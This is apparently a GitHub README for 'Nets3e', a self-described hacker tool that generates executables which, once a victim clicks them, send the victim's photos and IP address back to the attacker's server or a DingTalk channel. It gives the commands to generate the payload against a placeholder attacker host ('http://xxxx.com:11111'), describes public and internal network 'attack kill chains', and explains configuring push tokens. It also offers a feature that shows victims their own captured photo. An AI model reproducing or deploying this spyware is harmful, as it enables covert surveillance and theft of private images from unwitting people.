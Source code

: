   <div align="center">
<p align="center">
 <img title="Nets3e" src='https://img.shields.io/badge/Nets3e-1.1.4-brightgreen.svg' />
 <img title="Nets3e" src='https://img.shields.io/badge/Python-3.9-yellow.svg' />
  <img title="Nets3e" src='https://img.shields.io/badge/HackerTool-x' />
 <img title="Nets3e" src='https://img.shields.io/static/v1?label=Author&message=@Martin&color=red'/>
 <img title="Nets3e" src='https://img.shields.io/badge/-windows-F16061?logo=windows&logoColor=000'/>
<img title="Nets3e" src='https://img.shields.io/badge/-Linux-F16061?logo=Linux&logoColor=000'/>
</p>
 
   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>Fixed the issue where the victim was unable to access the public IP address[NEW]</th>
    <th>Share data with DingTalk</th>
    <th>Selectively showing victims their own photos [NEW]</th>
</tr>
 
 </table>
</div>


  
## Nets3e Example

``pip install -i https://pypi.tuna.tsinghua.edu.cn/simple pycryptodome,Pillow``

``#python3 Nets3e.py -h``

![图片名称](./PT/help.png) 



```ps:Use '- g' to generate PAYLOAD, but you don't need to specify '- g'```

``#python3 Nets3e.py -rh http://xxxx.com:11111 -g``


![图片名称](./PT/1.png) 

``Follow the prompts in/ Generate two exe executable files from the dist directory``

![图片名称](./PT/2.png) 

_Nets3eClient_debug.exe -> The debug version of internal network attacks is mainly used to test whether internal network victims can reach the local machine_

_Nets3eClient_release.exe -> The release version of public network attacks is mainly used to attack public network users_

## Public network attack

``Victims click on Nets3eClient_release.exe``




![图片名称](./PT/out.png) 

``Attack Kill Chain``

![图片名称](./PT/Chain_Re.png) 

## Internal network attack

``Victims click on Nets3eClient_debug.exe``

``PS:Affected hosts on the internal network will first obtain their own public IP address and then send photos to the internal network host. In fact, the traffic is not forwarded by the server``



![图片名称](./PT/in.png) 

``Attack Kill Chain``

![图片名称](./PT/Chain_Debug.png) 


# Configure the API for victims to obtain public IP addresses, and configure nail push TOKEN and keys

![图片名称](./PT/config.png) 


## Push using (- dd) after configuration

``#python3 Nets3e.py -dd ``

![图片名称](./PT/dd1.png) 

```Victims click on the app```


![图片名称](./PT/getip.png) 

![图片名称](./PT/ip.png) 


## -echo The victim will see their own photo


![图片名称](./PT/echo.png) 
